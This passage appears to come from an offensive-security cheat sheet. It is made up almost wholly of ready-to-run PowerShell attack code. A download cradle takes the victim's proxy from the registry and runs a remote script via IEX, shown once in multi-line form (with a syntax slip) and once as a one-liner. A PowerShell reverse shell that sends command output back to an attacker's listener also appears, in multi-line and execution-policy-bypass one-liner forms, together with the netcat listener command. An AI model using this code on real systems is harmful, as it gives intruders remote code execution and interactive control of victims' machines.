 ```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start =
$key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "RELPACE THIS")
IEX()$wc.DownloadString("http://192.168.56.1/run.ps1")
```

#### one-liner

```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null;$keys = Get-ChildItem 'HKU:\';ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}};$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer;[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr");$wc = new-object system.net.WebClient;$wc.Headers.Add('User-Agent', "RELPACE THIS");IEX($wc.DownloadString("http://192.168.56.1/run.ps1"))
```

### <mark style="color:orange;">PowerShell Reverse Shells</mark>

setup a netcat listener:

```
nc -nvlp 4444
```

this code is a reverse shell in powershell:

```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

one-liner:

```
powershell -ep bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
